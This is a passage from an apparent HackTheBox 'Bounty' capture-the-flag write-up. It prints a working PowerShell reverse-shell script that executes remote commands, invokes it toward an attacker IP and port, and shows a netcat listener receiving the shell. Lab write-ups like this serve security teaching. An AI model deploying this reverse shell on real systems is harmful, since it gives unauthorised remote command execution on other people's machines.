 ```
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target."
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.69 -Port 1337
```
So now we have a much more useful shell:

```
kali@kali:~/htb/Bounty$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.90.62 49191
whoami
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>bounty\merlin
PS C:\windows\system32\inetsrv>
```
